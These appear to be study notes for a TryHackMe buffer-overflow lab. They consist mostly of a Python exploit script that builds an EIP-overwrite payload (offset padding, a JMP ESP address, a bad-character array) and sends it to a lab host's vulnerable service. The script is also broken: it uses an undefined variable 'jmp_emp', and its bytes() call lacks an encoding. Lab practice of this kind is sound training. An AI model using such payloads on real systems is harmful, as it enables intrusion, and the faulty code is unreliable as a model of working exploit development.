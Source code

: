 ## Encoding, Packing Bytes and Strings
https://tryhackme.com/room/bufferoverflowprep
https://docs.python.org/3/library/struct.html
https://docs.pwntools.com/en/stable/

There is alot here:
```python
#!/usr/bin/python3
import socket
import struct
import sys

# stdout in bytes:
sys.stdout.buffer.write(bytes('a string'))


def customp32(data):
#struct.pack(">I", data) # big endian
#struct.pack("<I", data) # little endian
    return struct.pack("<I", data)

host, port = "10.10.61.109", 1337

all_chars = bytearray(range(1,256))
# instead of:
#for x in range(1, 256):
#  print("\\x" + "{:02x}".format(x), end='')
#print()

bad_chars = [
        b"\x07",
        b"\x2d",
        b"\x2e",
        b"\xa0",
        ]
# Add bad char to bad_chars as we discover them
for bad_char in bad_chars:
    all_chars = all_chars.replace(bad_char, b"")

cmd = b"OVERFLOW1 "
pattern_length = 2000 # Documentation and keep for length retention
offset = 1978
new_eip = b"BBBB"
jmp_esp = customp32(0x625011AF) # must be the correct endianness

payload = b"".join([
            cmd,
            b"A" * offset,
            jmp_emp, # replaced new_eip
            all_chars,
            b"C" *  (pattern_length - len(new_eip) - offset - len(all_chars)),
        ])

with socket.socket() as s:
    s.connect((host,port))
    s.send(payload)

```

